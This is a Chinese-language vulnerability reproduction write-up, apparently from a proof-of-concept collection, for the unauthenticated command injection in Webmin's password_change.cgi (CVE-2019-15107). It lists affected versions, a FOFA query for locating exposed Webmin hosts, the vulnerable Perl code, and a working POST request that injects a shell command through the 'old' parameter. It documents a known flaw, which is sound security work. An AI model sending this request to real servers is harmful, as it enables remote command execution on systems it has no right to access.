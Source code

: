 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页。面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 漏洞影响

```
Webmin <= 1.920
```

## FOFA

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291019698.png)

漏洞的触发点为文件 password_change.cgi

![image-20220829102002569](./images/202208291020663.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![image-20220829102029855](./images/202208291020941.png)

```
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![image-20220829102048174](./images/202208291020246.png)